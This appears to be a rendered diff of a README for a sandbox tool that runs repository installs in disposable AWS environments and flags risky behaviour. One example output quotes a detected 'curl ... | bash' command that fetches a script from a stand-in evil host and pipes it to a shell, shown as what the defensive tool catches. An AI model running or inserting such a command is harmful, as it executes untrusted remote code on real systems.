

Before and after one commit to simplynadaf/repopilot-sandbox-tool, a Markdown page: README.md, 3 parts joined by grey strips. Rendered like a GitHub page.

```diff
--- a/README.md
+++ b/README.md
@@ -228,7 +225,7 @@ Each flag returns a `why` (plain English) and the exact `evidence` line from the
 | 🤖 Agent loop | [Strands Agents SDK](https://strandsagents.com) (`@tool`) |
 | 🧠 Reasoning | [Amazon Nova Pro](https://aws.amazon.com/ai/generative-ai/nova/) on Amazon Bedrock |
 | 🐍 Runtime | Python 3.11, `boto3` |
-| 🎨 Demo | single-file HTML, premium dark glass UI, a v1/v2 toggle, zero live calls |
+| 🎨 Demo | the real RepoPilot UI with the tool built in: score the repo, then click **Run it in a disposable AWS sandbox**; static replay, zero live calls |
 | ✅ Tests | 9 unit tests, no AWS needed (injectable client) |
 
 ---
@@ -272,7 +269,7 @@ run("pallets/click", "https://github.com/pallets/click", "pip install .")
   -> status: SUCCEEDED   install_ok: True   danger_signals: []   verified: True
 
 # Sneaky postinstall (install reaches the network)
-run("demo/sneaky-postinstall", ..., install that echoes a curl|bash)
+run("evil/fake-agent-kit", ..., install that echoes a curl|bash)
   -> status: SUCCEEDED   install_ok: True
      danger_signals: [ remote_pipe_to_shell :: "curl -s https://evil.example.com/i.sh | bash" ]
      verified: True
@@ -361,7 +361,7 @@ No. It is a static replay of real recorded runs, so it makes zero AWS calls.
 ## 🔗 Links
 
 - ▶️ Demo video: _YouTube URL (added on publish)_
-- 🖥️ Live before/after toggle: https://simplynadaf.github.io/repopilot-sandbox-tool/
+- 🖥️ Live demo (the real UI, static replay): https://simplynadaf.github.io/repopilot-sandbox-tool/
 
 ---
 
```
Also changed, not shown: other parts of README.md (+22 -22 lines), docs/architecture.png, docs/ui-hero.png (added), 2 other files.
